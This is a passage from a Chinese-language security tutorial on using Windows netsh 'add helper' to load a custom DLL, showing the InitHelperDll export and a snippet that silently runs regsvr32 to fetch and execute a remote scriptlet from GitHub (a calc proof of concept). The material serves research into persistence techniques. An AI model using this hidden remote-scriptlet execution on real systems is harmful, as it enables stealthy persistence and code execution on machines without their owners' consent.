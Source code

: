```netsh interface ip show config```
输入netsh /?可查看更详细的命令帮助，其中add命令值得注意，输入netsh add /?获得更详细内容：

```
netsh add /?
The following commands are available:
Commands in this context:
add helper - Installs a helper DLL.
```


如果在此添加一个测试dll，结果会怎样呢？


## 0x02 编写helper DLL
---
每个helper DLL都需要包含导出函数InitHelperDll

在添加helper DLL后，每次netsh在初始加载的时候会调用该helper DLL中的导出函数InitHelperDll

InitHelperDll示例如下：


```
DWORD
WINAPI
InitHelperDll(
    DWORD      dwNetshVersion,
    PVOID      pReserved
)
{
    NS_HELPER_ATTRIBUTES attMyAttributes;

    attMyAttributes.guidHelper = g_MyGuid;
    attMyAttributes.dwVersion  = 1;
    attMyAttributes.pfnStart   = NetshStartHelper;
    RegisterHelper( NULL, &attMyAttributes );
    return NO_ERROR;
}
```



关于InitHelperDll的细节可参照如下链接：

https://msdn.microsoft.com/en-us/library/windows/desktop/ms708327(v=vs.85).aspx


在《Code Execution of Regsvr32.exe》曾具体介绍过如何为dll添加一个导出函数，所以在这里接着简单介绍一下：



新建c++工程，创建一个dll项目 在主文件添加:


```
DWORD WINAPI InitHelperDll(DWORD dwNetshVersion,PVOID pReserved)
{
	char *command="cmd.exe /c start regsvr32.exe /s /n /u /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll";
    WinExec(command,SW_HIDE); 
	return 0;
}
```

```